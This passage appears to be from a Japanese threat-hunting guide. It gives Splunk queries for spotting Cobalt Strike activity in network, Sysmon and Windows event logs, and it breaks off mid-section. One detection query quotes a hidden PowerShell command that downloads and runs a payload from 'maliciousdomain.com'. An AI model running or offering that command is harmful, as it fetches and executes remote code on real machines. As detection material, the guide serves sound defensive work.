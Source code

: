 **例**: 大量のデータ転送が行われているセッションを検索する

```plaintext
index=network_logs | stats sum(bytes) by src_ip, dest_ip | where sum(bytes) > 1000000
```

### 6. **コマンドやアクティビティの検出**

Cobalt Strikeが実行するコマンドやアクティビティを検出するために、ログに記録されたコマンドを検索します。

**例**: 特定のコマンドが含まれるログを検索する

```plaintext
index=sysmon_logs | search "cmdline=\"powershell -nop -w hidden -c iex (New-Object Net.WebClient).DownloadString('http://maliciousdomain.com/payload')\""
```

Cobalt Strikeのイベントログ検索

1. Sysmonログでの検出

Sysmon（System Monitor）は、Windowsイベントログを詳細に記録するツールで、Cobalt Strikeのアクティビティを検出するのに役立ちます。

1.1 PowerShellコマンドの監視

Cobalt StrikeはPowerShellコマンドを実行することがあります。SysmonイベントID1（プロセス作成イベント）でPowerShellコマンドを監視します。

例: PowerShellコマンドラインにiex（Invoke-Expression）が含まれるイベントを検索する
```bash
index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1 | search CommandLine="iex*"
```
1.2 ネットワーク接続の監視

SysmonイベントID3（ネットワーク接続イベント）でCobalt StrikeのC2トラフィックを検出します。

例: 特定のポートへのネットワーク接続を検索する
```bash
index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=3 | search DestinationPort=50050
```
1.3 ファイル作成イベントの監視

SysmonイベントID11（ファイル作成イベント）で、Cobalt Strikeのペイロードやマルウェアファイルの作成を検出します。

例: 特定のファイルパスに関連するイベントを検索する
```bash
index=sysmon_logs sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=11 | search FileName="*.exe"
```
2. Windowsイベントログでの検出

Windowsイベントログでも、Cobalt Strikeの活動に関連する情報を検索できます。

2.1 イベントID4688（プロセス作成）

新しく作成されたプロセスを監視します。

例: 特定のコマンドラインオプションを含むプロセス作成イベントを検索する
```bash
index=windows_logs sourcetype=WinEventLog:Security EventCode=4688 | search CommandLine="powershell*"
```
2.2 イベントID5156（ネットワーク接続の許可）
